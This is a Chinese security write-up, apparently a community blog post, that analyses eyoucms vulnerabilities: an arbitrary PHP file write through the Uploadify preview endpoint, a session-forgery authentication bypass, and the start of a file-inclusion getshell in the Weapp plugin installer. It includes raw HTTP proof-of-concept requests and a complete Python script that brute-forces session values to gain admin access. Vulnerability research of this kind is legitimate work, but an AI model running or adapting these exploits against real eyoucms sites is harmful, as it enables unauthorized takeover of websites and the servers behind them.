# eyoucms getshell 的详细分析和复现-先知社区

> **来源**: https://xz.aliyun.com/news/16813  
> **文章ID**: 16813

---

# eyoucms getshell 的详细分析和复现

### **免责声明**

在本平台发布的所有安全技术内容仅供学习、研究与讨论之用。

## eyoucms 1.0 前台 getshell

### 分析

参考<https://www.moonsec.com/6078.html>  
这个漏洞的点  
因为这个版本太老了，就不搭环境复现了，不过简单看了一下原理，确实很简单哈哈哈

漏洞代码是在 applicationapicontrollerUploadify.php 的 preview 函数

```
$src = file_get_contents('php://input'); //使用php伪协议进行写入//正则获取是否是图片base64编码数据， data:image/php;base64就可以绕过这个正则.$matches被赋值为搜索出来的结果if (preg_match("#^data:image/(w+);base64,(.*)$#", $src, $matches)) { 
$previewUrl = sprintf(
  "%s://%s%s",
  isset($_SERVER['HTTPS']) && $_SERVER['HTTPS'] != 'off' ? 'https' : 'http',
$_SERVER['HTTP_HOST'],$_SERVER['REQUEST_URI']
);

$previewUrl = str_replace("preview.php", "", $previewUrl);//获取路径
$base64 = $matches[2]; //获取base64数据
$type = $matches[1]; //获取base64后缀,此时的后缀是phpif ($type === 'jpeg') { //if语句进行判断，如果此时后缀是jpeg则后缀变为jpg，但是如果后缀是php，那后缀还是php,后缀名可以被外部控制
  $type = 'jpg';
}

$filename = md5($base64).".$type";  // 将传入的base64进行md5加密形成文件名，$type变量 也就是后缀名 这里我们可以控制
$filePath = $DIR.DIRECTORY_SEPARATOR.$filename; //文件存放的位置，也就是preveiw/文件名if (file_exists($filePath)) { // 判断文件是否存在，存在则返回存在的路径die('{"jsonrpc" : "2.0", "result" : "'.$previewUrl.'preview/'.$filename.'", "id" : "id"}');
} else {
  $data = base64_decode($base64);  //不存在则进行base64解密，比如写入的是PD9waHAgcGhwaW5mbygpOz8+，则进行base64解密:<?php phpinfo();?>
  file_put_contents($filePath, $data); //写入文件，生成文件die('{"jsonrpc" : "2.0", "result" : "'.$previewUrl.'preview/'.$filename.'", "id" : "id"}');
          }
```

原作者已经分析得很详细了  
简单来说就是这个 api 使用 phpinput 协议接收我们的输入，原本是想的接收突破的，正则也是限制了接收图片

```
data:image/格式;base64,编码数据
```

然后正则匹配格式为文件后缀，编码数据就是我们写入的数据  
但是我们可以改写为

```
data:image/php;base64,木马base64编码
```

这样就导致了 php 文件可写

api 路径为

```
http://ip/index.php/api/Uploadify/preview
```

### 漏洞修复

这个就很好修复，直接白名单就好了

```
if (!in_array($type, array('jpg', 'png', 'jpeg', 'gif'), true)) {
   exit;
}
```

## session 越权+文件包含 getshell

### session 越权

#### 分析+复现

##### 登录逻辑

这个就一边分析一边复现了，这样大家看文章更看得更明白

首先我们看到 admin 用户的登录逻辑  
代码是在 application/admin/controller/Base.php 文件中

首先第一肯定是想到在 login 方法,代码很长，但是感觉都很重要  
我就拆开分析了

```
if (session('?admin_id') && session('admin_id') > 0) {
    $web_adminbasefile = tpCache('web.web_adminbasefile');
    $web_adminbasefile = !empty($web_adminbasefile) ? $web_adminbasefile : '/login.php';
    $this->success("您已登录", $web_adminbasefile);
}

```

首先根据我们是否已经存在 admin\_id 来判断是否需要后续的操作，如果已经登录，直接跳转到管理后台，避免重复登录。这里是我一开始想要绕过的点

```
$is_vertify = 1; // 默认开启验证码
$admin_login_captcha = config('captcha.admin_login');
if (!function_exists('imagettftext') || empty($admin_login_captcha['is_on'])) {
    $is_vertify = 0; // 函数不存在，不符合开启的条件
}
$this->assign('is_vertify', $is_vertify);

```

这里就是默认开启验证码

```
if (!function_exists('session_start')) {
    $this->error('请联系空间商，开启php的session扩展！');
}
if (!testWriteAble(ROOT_PATH.config('session.path').'/')) {
    $this->error('请仔细检查以下问题：<br/>1、磁盘空间大小是否100%；<br/>2、站点目录权限是否为755；<br/>3、站点所有目录的权限，禁止用root:root ；<br/>4、如还没解决，请点击：<a href="http://www.eyoucms.com/wenda/6958.html" target="_blank">查看教程</a>');
}

```

然后就是一些基础的检测，主要是用来帮助我们储存 session。

```
$user_name = input('post.user_name/s');
$password = input('post.password/s');
$condition['user_name'] = $user_name;
$condition['password'] = $password;
if (!empty($condition['user_name']) && !empty($condition['password'])) {
    $condition['password'] = func_encrypt($condition['password']);
    $admin_info = M('admin')->where($condition)->find();
    if (empty($admin_info)) {
        adminLog('登录失败(用户名/密码错误)');
        $this->error("用户名或密码错误！");
    } else {
        if ($admin_info['status'] == 0) {
            adminLog('登录失败(用户名被禁用)');
            $this->error('用户名被禁用！');
        }

```

这个代码很好懂，就是验证输入的账号密码

```
$role_id = !empty($admin_info['role_id']) ? $admin_info['role_id'] : -1;
$auth_role_info = array();
if (!empty($admin_info['parent_id'])) {
    $role_name = '超级管理员';
    $isFounder = 0;
} else {
    $role_name = '创始人';
    $isFounder = 1;
}

```

然后就是开始获取用户的权限了，主要是根据 admin\_info 中的 role\_id 来实现的

```
session('admin_id',$admin_info['admin_id']);
session('admin_info', $admin_info_new);
session('admin_login_expire', getTime()); // 登录有效期

```

然后存储 session 的相关参数

总结一下这个方法，一共是两种方法，第一个就是 admin\_id 第二个就是输入用户名密码后再存储一个 session

如果我们需要绕过肯定是通过第一种方法绕过，那如何让我一个用户能有 admin\_id 呢

##### session 伪造

这里就要说到这个 cms 的 api 方法了

在 application/api/controller/Ajax.php 文件中

有一个方法

```
public function get_token($name = '__token__')
{
    if (IS_AJAX) {
        echo $this->request->token($name);
        exit;
    } else {
        abort(404);
    }
}
```

首先是一个 if 判断，需要 IS\_AJAX 为真，跟进看看

```
public function isAjax($ajax = false)
{
    $value  = $this->server('HTTP_X_REQUESTED_WITH', '', 'strtolower');
    $result = ('xmlhttprequest' == $value) ? true : false;
    if (true === $ajax) {
        return $result;
    } else {
        $result           = $this->param(Config::get('var_ajax')) ? true : $result;
        $this->mergeParam = false;
        return $result;
    }
}
```

具体判断 HTTP\_X\_REQUESTED\_WITH 头的值是否为 xmlhttprequest ，这个是可以控制的，然后具体跟进 token 方法

```
public function token($name = '__token__', $type = 'md5')
{
    $type  = is_callable($type) ? $type : 'md5';
    $token = call_user_func($type, $_SERVER['REQUEST_TIME_FLOAT']);
    if ($this->isAjax()) {
        header($name . ': ' . $token);
    }
    Session::set($name, $token);
    return $token;
}
```

可以对 session 中的键设置值，那岂不是我可以为我的用户设置 admin\_id 了？

##### 第一次尝试

然后我们开始尝试  
POC 如下

```
GET /index.php?m=api&c=ajax&a=get_token&name=admin_id HTTP/1.1
Host: eyoucms:9893
Cache-Control: max-age=0
x-requested-with: xmlhttprequest
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: XDEBUG_SESSION=PHPSTORM;home_lang=cn; admin_lang=cn; PHPSESSID=oem06bao9fc180pk148jr3kuec
Connection: keep-alive
```

首先我们用户的认定是 oem06bao9fc180pk148jr3kuec  
  
运行一次后查看 session

  
可以看到成功赋值了，然后我们再去尝试登录  
账号和密码我是乱输入的

```
POST /login.php?m=admin&c=Admin&a=login&_ajax=1&lang=cn&t=0.15143119945124295 HTTP/1.1
Host: eyoucms:9893
Content-Length: 41
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://eyoucms:9893
Referer: http://eyoucms:9893/login.php?s=Admin/login
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: XDEBUG_SESSION=PHPSTORM;home_lang=cn; admin_lang=cn; PHPSESSID=oem06bao9fc180pk148jr3kuec
Connection: keep-alive

user_name=admin&password=111&vertify=qt8u
```



这里有一个点就是

session('admin\_id')>0，那我们可以一直获取 id，直到我们的 hash 值以数字开头

否则就会这样  


然后我们刷新一下 token  
  
再次尝试

  
你不会真以为登录成功了吧

  
可惜登录超时了



其实之后回想了一下也有很多问题  
超时？我们需要找到判断用户超时的逻辑  
位置是在 application/admin/controller/Base.php 文件

```
public function _initialize() 
{
    $this->session_id = session_id(); // 当前的 session_id
    !defined('SESSION_ID') && define('SESSION_ID', $this->session_id); //将当前的session_id保存为常量，供其它方法调用
    parent::_initialize();
    //过滤不需要登陆的行为
    $ctl_act = CONTROLLER_NAME.'@'.ACTION_NAME;
    $ctl_all = CONTROLLER_NAME.'@*';
    $filter_login_action = config('filter_login_action');
    if (in_array($ctl_act, $filter_login_action) || in_array($ctl_all, $filter_login_action)) {
        //return;
    }else{
        $web_login_expiretime = tpCache('web.web_login_expiretime');
        empty($web_login_expiretime) && $web_login_expiretime = config('login_expire');
        $admin_login_expire = session('admin_login_expire'); // 登录有效期web_login_expiretime
        if (session('?admin_id') && getTime() - intval($admin_login_expire) < $web_login_expiretime) {
            session('admin_login_expire', getTime()); // 登录有效期
            $this->check_priv();//检查管理员菜单操作权限
        }else{
            /*自动退出*/
            adminLog('访问后台');
            session_unset();
            session::clear();
            cookie('admin-treeClicked', null); // 清除并恢复栏目列表的展开方式
            /*--end*/
            if (IS_AJAX) {
                $this->error('登录超时！');
            } else {
                $url = request()->baseFile().'?s=Admin/login';
                $this->redirect($url);
            }
        }
    }
```

如果你给这个方法下一个断点，可以发现每次执行功能前都会执行这个方法

核心部分有三个需要成立

```
(session('?admin_id')
  getTime() - intval($admin_login_expire) < $web_login_expiretime
  $this->check_priv()
```

一个一个来，首先第一个存在就可，只需要上面的方法就够了

然后第二个条件

这个就需要不断的去获取 token 了，比如直到满足条件即可，只需要一直发包设置 token 碰撞到满足条件即可

第三个条件跟进 check\_priv 方法

```
public function check_priv()
{
    $ctl = CONTROLLER_NAME;
    $act = ACTION_NAME;
    $ctl_act = $ctl.'@'.$act;
    $ctl_all = $ctl.'@*';
    //无需验证的操作
    $uneed_check_action = config('uneed_check_action');
    if (0 >= intval(session('admin_info.role_id'))) {
        //超级管理员无需验证
        return true;
    } else {
        $bool = false;

        /*检测是否有该权限*/
        if (is_check_access($ctl_act)) {
            $bool = true;
        }
        /*--end*/

        /*在列表中的操作不需要验证权限*/
        if (IS_AJAX || strpos($act,'ajax') !== false || in_array($ctl_act, $uneed_check_action) || in_array($ctl_all, $uneed_check_action)) {
            $bool = true;
        }
        /*--end*/

        //检查是否拥有此操作权限
        if (!$bool) {
            $this->error('您没有操作权限，请联系超级管理员分配权限');
        }
    }
}
```

返回 ture 最简单的方法就是 0 >= intval(session('admin\_info.role\_id')，这个也是碰撞就 ok 了

这里给出脚本,其中逻辑很清晰

```
# -*- coding:utf-8 -*-
from time import time

import requests
import re

# 定义 header 头, 绕过 isAjax
header = {'x-requested-with': 'xmlhttprequest'}

# 定义一个 requests 会话
request = requests.session()

PHPSESSION = ""


# 绕过第一个判断
def get_session(url):
    global PHPSESSION

    # 设置 admin_id 并且，获取 PHPSESSION
    payload = '/index.php'
    result = request.get(url=url + payload, headers=header)
    # 获取PHPSESSION
    print("[+] PHPSESSION = " + re.search("PHPSESSID=(.*?);", result.headers["set-cookie"]).groups()[0])
    PHPSESSION = re.search("PHPSESSID=(.*?);", result.headers["set-cookie"]).groups()[0]


def set_admin_id(url):
    # 设置一个 admin_id 以绕过，第一个条件
    payload = '/index.php?m=api&c=ajax&a=get_token&name=admin_id'
    result = request.get(url=url + payload, headers=header).text
    print(f"[+] 正在设置 admin_id -> [{result}]")


def set_admin_login_expire(url):
    payload = "/index.php?m=api&c=ajax&a=get_token&name=admin_login_expire"

    while True:
        result = request.get(url=url + payload, headers=header).text

        # 第二个判断条件，判断登录是否在一小时里
        if (time() - int(change(result), 10) < 3600):
            print("[+] admin_login_expire = " + result)
            break

        print(f"[INFO] 正在爆破 admin_login_expire -> [{result}]")


def set_admin_info_role_id(url):
    payload = "/index.php?m=api&c=ajax&a=get_token&name=admin_info.role_id"

    while True:
        result = request.get(url=url + payload, headers=header).text

        # 第三个判断条件，判断是否是管理员权限
        if (int(change(result), 10) <= 0):
            print("[+] admin_login_expire = " + result)
            break

        print(f"[INFO] 正在爆破 admin_info.role_id -> [{result}]")


def check_login(url):
    payload = "login.php?m=admin&c=System&a=web&lang=cn"
    result = request.get(url=url + payload).text

    if "网站LOGO" in result:
        print(f"[+] 使用 PHPSESSION -> [{PHPSESSION}] 登录成功！")
    else:
        print(f"[+] 使用 PHPSESSION -> [{PHPSESSION}] 登录失败！")


# 如果第一个字符为字母就直接返回0，不是则直到找到字母，并且返回前面不是字母的字符
def change(string):
    temp = ''
    for n, s in enumerate(string):
        if n == 0:
            if s.isalpha():
                return '0'
                break
        if s.isdigit():
            temp += str(s)
        else:
            if s.isalpha():
                break
    return temp


def run(url):
    # 开始计时
    time_start = time()

    get_session(url)
    set_admin_id(url)
    set_admin_login_expire(url)
    set_admin_info_role_id(url)
    check_login(url)

    print(f"[+] PHPSESSION = {PHPSESSION}")

    # 结束计时
    time_end = time()

    print(f"[+] 总共用时 {int(time_end) - int(time_start)} s")


if __name__ == '__main__':
    url = "http://eyoucms:9893/"
    run(url)
```



首先是一个普通的 id，会重定向到登录界面

  
然后尝试换 id，见证奇迹时刻



可以看见已经进入后台了

### 文件包含 getshell

进入了后台就该想想办法 getshell 了，这里使用文件包含的那个点  
漏洞文件是在 application/admin/controller/Weapp.php 的 downloadInstall 方法，代码很长，拆开分析，先说一下漏洞点  
  
我们要做的就是控制文件内容而且也能够到包含点

```
$parse_data = parse_url($url);
if (empty($parse_data['host']) || GetUrlToDomain($parse_data['host']) != 'eyoucms.com') {
    $this->error('该云插件下载链接出错！', url('Weapp/plugin'));
}

```

首先就迎来了我们的第一个难关，就是对 host 的检验，必须等于 eyoucms.com，绕过方法可以说是很妙了，就是上传一个文件到这个网页上，他的地址就是 eyoucms.com，我们去官网，评论功能，可以上传文件，这里因为我不是新用户，但是如果可以的话是可以上传文件，并且获得路径的  
